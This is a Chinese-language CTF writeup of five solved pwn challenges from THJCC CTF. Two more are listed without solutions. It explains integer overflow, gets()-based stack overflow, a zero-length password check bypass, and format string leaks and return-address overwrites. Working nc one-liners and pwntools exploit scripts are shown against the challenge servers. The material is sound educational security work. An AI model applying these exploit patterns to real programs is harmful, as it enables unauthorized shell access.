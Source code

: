 ```yaml
---
title: THJCC CTF pwn writeup
published: 2025-04-22 02:45:00
description: ''
image: ''
tags: ['pwn']
category: 'CTF'
draft: false 
lang: ''
---
```


> 比賽時 pwn 的題目並沒有寫完全部（5/7），若後續有解出來會再補上。

## Flag Shoping

It's the FLAG SHOP!!! Let's go buy some flags!!!

> Author: Grissia

`nc chal.ctf.scint.org 10101`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/flag_shopping.c)

### Solution

這一題是典型的 interger overflow 題，使用者可以選擇購買商品、輸入購買數量 `(long long)num`，而用來儲存持有金錢的 `money` 又是 `int` 型別。第 43 行在扣錢時，又將 `num` 轉型成 `int`，所以我們可以考慮以下攻擊流程：

- 輸入數量一個比 `INT_MAX` 大的數，讓第 43 行轉型別時會變成負數。在減法時就會**負負得正**。
- 重複以上動作直到持有金錢累計大於購買 flag 的金額 123456789。

所以我們的目標是讓 `money` 比原先多 123456789 - 100 = 123456689。

如果輸入的數字是 `INT_MAX` + 1 的話，型別轉換後會變成 `INT_MIN`，乘上 25 後就會再次 overflow 讓 `money` 變成負數。

```
> 1
> 2147483648
> 3
> 1
You only have -2147483548, But it cost 123456789 * 1 = 123456789
...
```

會導致這樣是因為原本 money 裡面有 100 元，所以就只要把輸入加上 100 / 25 = 4 後，應該就可以扣掉多餘的錢避免 overflow。但經測試之後要再加上 1 才夠。

## Money Overflow

I'm so poor that I can't afford to eat. I really wish I had a rich little sister to save me QQ

> Author: Dr.dog

`nc chal.ctf.scint.org 10001`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/money_overflow.c)

### Solution

這題就是簡單的 stack overflow 題，使用者的資訊會被存在一個 `struct` 裡面：

```c
struct {
  int id;
  char name[20];
  unsigned short money;
} customer;
```

而程式一開始就用不安全的函式讀，取使用者的輸入到 `customer.name`。這就給了我們利用的機會，只要填滿 `name` 後，就可以覆蓋到 `money` 的值。

```c
customer.id = 1;
customer.money = 100;
printf("Enter your name: ");
gets(customer.name);
```

而題目要求要 65535 才能拿到 shell，因此只要蓋 `\xff\xff` 就可以了。

```zsh
echo -e 'AAAAAAAAAAAAAAAAAAAA\xff\xff\n5\ncat flag.txt' | nc chal.ctf.scint.org 10001
```

## Insecure Shell

SSH is outdated<br>
ISSH is a more convenient alternative

> Author: Dr.dog

`nc chal.ctf.scint.org 10004`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/insecure_shell.c)

### Solution

這題會從 `/dev/urandom` 取出一段 15 bytes 的密碼，使用者必須輸入正確的密碼才能拿到 shell。但仔細閱讀程式碼，可以發現 `check_password()` 傳入的長度是使用者可控的，而不是密碼長度 15。

```c
check_password(password, buf, strlen(buf))
```

因此可以直接輸入一個長度 0 的字串繞過檢查，並拿到 shell。

```zsh
echo -e '\x00\ncat ../flag.txt' | nc chal.ctf.scint.org 10004
```

## Once

Are you sure you want to bet your life on winning this game in one chance?

![hyakusetsufuto](https://i.pinimg.com/736x/a4/5f/02/a45f02340a7bceef28ad678c5cd6507f.jpg)

> Author: Dr.dog

`nc chal.ctf.scint.org 10002`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/once.c)

### Solution

這一題是 format string 題，可以在程式碼中看到 `printf(buf)` 這種標誌型的特徵。程式一開始會隨機生成 `secret` 的內容，並在使用者輸入相同的字串時才能拿到 shell。既然是 format string，我們就可以嘗試 leak 出 `secret` 的內容。

```py
io.sendline(b"%8$p.%9$p")
    
io.recvuntil(b"Your guess: ")
high = io.recvuntil(b".").strip(b".")
high = int(high, 16)
low = io.recvuntil(b"\n").strip(b"\n")
low = int(low, 16)

secret =  p64(high) + p64(low)
info("secret: " + secret.decode());

io.sendline(b"n")

io.sendline(secret.strip(b"\x00"))
io.sendline(b"y")

io.sendline(b"cat ../flag.txt")
sleep(0.5)

io.recvuntil(b"answer!\n")
io.interactive()
io.close()
```

## Little Parrot

I'm a little parrot, and I'll repeat whatever you said!

> Author: Grissia

`nc chal.ctf.scint.org 10103`

Files：[source code](https://github.com/yuto0226/notes/blob/main/public/thjcc-ctf-pwn/little_parrot.c)

### Solution

這一題也可以看到 format string 的漏洞，問題在於要怎麼跳到 `win()`。我的作法是 leak 出 stack 和 .text 段的 address，計算 offset 後用 format string 再寫入 return address 的指標。

```py
io.sendline(b"%40$p.%41$p")  # prev frame addr
io.recvuntil(b"You said > ")

prev_rbp = io.recvuntil(b".").strip(b".")
info("prev_rbp: " + prev_rbp.decode())

ret_addr = io.recvline().strip()
info("ret_addr: " + ret_addr.decode())

ptr_ret_addr = int(prev_rbp, 16) - frame_offset
info("ptr_ret_addr: " + hex(ptr_ret_addr))

win_addr = int(ret_addr, 16) - win_offset
info("win_addr: " + hex(win_addr))

info(hex(ptr_ret_addr + 4) + " -> win_addr: " + hex(win_addr))

payload = fmtstr_payload(
    offset=6,
    writes={
        ptr_ret_addr: win_addr,
    },
    write_size='short',
)

info(b"payload: " + payload)

io.sendline(payload)

io.sendline(b"exit")
io.interactive()
io.close()
```

## Bank Clerk

Do you know what the "Principle of Least Privilege" is? But what if I can control the system even through I'm just a bank clerk?

> Author: Dr.dog

`nc chal.ctf.scint.org 10003`

## Painter

I created a stack structure to store my artwork:D

> Author: Dr.dog

`nc chal.ctf.scint.org 10006`
